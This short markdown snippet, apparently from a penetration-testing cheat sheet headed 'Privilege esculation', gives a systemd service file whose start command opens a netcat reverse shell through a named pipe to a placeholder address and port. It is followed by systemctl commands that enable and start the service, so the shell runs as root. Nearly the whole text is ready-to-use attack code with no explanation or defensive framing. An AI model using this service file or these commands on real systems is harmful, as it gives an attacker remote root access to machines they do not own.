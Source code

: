 #### Privilege esculation
Reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```


